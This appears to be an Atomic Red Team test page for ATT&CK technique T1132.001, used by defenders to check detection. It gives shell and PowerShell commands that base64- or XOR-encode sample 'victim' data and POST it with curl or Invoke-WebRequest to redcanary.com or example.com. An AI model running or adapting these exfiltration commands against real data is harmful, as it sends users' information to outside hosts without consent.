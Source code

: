 ```yaml
---
tags: [T1132_001, atomic_test]
filename: "[[T1132.001 - Data Encoding- Standard Encoding]]"
---
```

# T1132.001 - Data Encoding: Standard Encoding

## Atomic Test #1 - Base64 Encoded data.
Utilizing a common technique for posting base64 encoded data.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** 1164f70f-9a88-4dff-b9ff-dc70e7bf0c25





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | url | redcanary.com|
| base64_data | Encoded data to post using fake Social Security number 111-11-1111. | string | MTExLTExLTExMTE=|


#### Attack Commands: Run with `sh`! 


```sh
echo -n 111-11-1111 | base64
curl -XPOST #{base64_data}.#{destination_url}
```






<br/>
<br/>

## Atomic Test #2 - Base64 Encoded data (freebsd)
Utilizing a common technique for posting base64 encoded data.

**Supported Platforms:** Linux


**auto_generated_guid:** 2d97c626-7652-449e-a986-b02d9051c298





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | url | redcanary.com|
| base64_data | Encoded data to post using fake Social Security number 111-11-1111. | string | MTExLTExLTExMTE=|


#### Attack Commands: Run with `sh`! 


```sh
echo -n 111-11-1111 | b64encode -r -
curl -XPOST #{base64_data}.#{destination_url}
```




#### Dependencies:  Run with `sh`!
##### Description: Requires curl
##### Check Prereq Commands:
```sh
if [ -x "$(command -v curl)" ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```sh
pkg install -y curl
```




<br/>
<br/>

## Atomic Test #3 - XOR Encoded data.
XOR encodes the data with a XOR key.
Reference - https://gist.github.com/loadenmb/8254cee0f0287b896a05dcdc8a30042f

**Supported Platforms:** Windows


**auto_generated_guid:** c3ed6d2a-e3ad-400d-ad78-bbfdbfeacc08





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | url | example.com|
| plaintext | Plain text mimicking victim data sent to C2 server. | string | Path&#92;n----&#92;nC:&#92;Users&#92;victim|
| key | XOR key used for encoding the plaintext. | string | abcdefghijklmnopqrstuvwxyz123456|


#### Attack Commands: Run with `powershell`! 


```powershell
$plaintext = ([system.Text.Encoding]::UTF8.getBytes("#{plaintext}"))
$key = "#{key}"
$cyphertext =  @();
for ($i = 0; $i -lt $plaintext.Count; $i++) {
 $cyphertext += $plaintext[$i] -bxor $key[$i % $key.Length];
}
$cyphertext = [system.Text.Encoding]::UTF8.getString($cyphertext)
[System.Net.ServicePointManager]::Expect100Continue = $false
Invoke-WebRequest -Uri #{destination_url} -Method POST -Body $cyphertext -DisableKeepAlive
```






<br/>
